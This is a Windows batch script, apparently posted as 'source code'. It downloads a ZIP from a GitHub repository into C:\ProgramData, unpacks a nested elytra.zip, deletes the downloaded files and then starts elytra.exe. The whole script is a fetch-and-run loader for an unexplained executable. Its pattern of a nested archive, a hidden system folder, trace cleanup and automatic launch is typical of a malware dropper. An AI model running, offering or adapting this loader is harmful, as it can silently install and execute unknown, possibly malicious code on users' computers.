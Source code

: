 @echo off
set MAIN_ZIP_URL=https://github.com/elytra993/databasevoid/archive/refs/heads/main.zip
set MAIN_ZIP_PATH=C:\ProgramData\databasevoid.zip
set MAIN_EXTRACT_PATH=C:\ProgramData\databasevoid-main
set INNER_ZIP_FOLDER=C:\ProgramData\databasevoid-main\DataBaseVoid-main
set INNER_ZIP_PATH=%INNER_ZIP_FOLDER%\elytra.zip
set FINAL_EXTRACT_PATH=C:\ProgramData\elytra
set EXE_PATH=%FINAL_EXTRACT_PATH%\elytra.exe

echo Downloading main ZIP file from GitHub...
curl -L -o "%MAIN_ZIP_PATH%" "%MAIN_ZIP_URL%"
if %ERRORLEVEL% NEQ 0 (
    echo Error: Failed to download the main ZIP file.
    exit /B
)

echo Extracting main ZIP file...
powershell -command "Expand-Archive -Path '%MAIN_ZIP_PATH%' -DestinationPath '%MAIN_EXTRACT_PATH%'" 2>nul
if %ERRORLEVEL% NEQ 0 (
    echo Error: Failed to extract the main ZIP file.
    exit /B
)

echo Checking for elytra.zip at %INNER_ZIP_PATH%...
if exist "%INNER_ZIP_PATH%" (
    echo Found elytra.zip. Extracting to %FINAL_EXTRACT_PATH%...
    powershell -command "Expand-Archive -Path '%INNER_ZIP_PATH%' -DestinationPath '%FINAL_EXTRACT_PATH%'"
    if %ERRORLEVEL% EQU 0 (
        echo elytra.zip extracted successfully to %FINAL_EXTRACT_PATH%.
    ) else (
        echo Error: Failed to extract elytra.zip.
        exit /B
    )
) else (
    echo Error: elytra.zip not found at %INNER_ZIP_PATH%!
    exit /B
)

echo Cleaning up temporary files...
del "%MAIN_ZIP_PATH%" >nul 2>&1
rd /s /q "%MAIN_EXTRACT_PATH%" >nul 2>&1

echo Starting elytra.exe...
if exist "%EXE_PATH%" (
    start "" "%EXE_PATH%"
    echo elytra.exe started successfully.
) else (
    echo Error: elytra.exe not found at %EXE_PATH%!
)

echo Process complete.
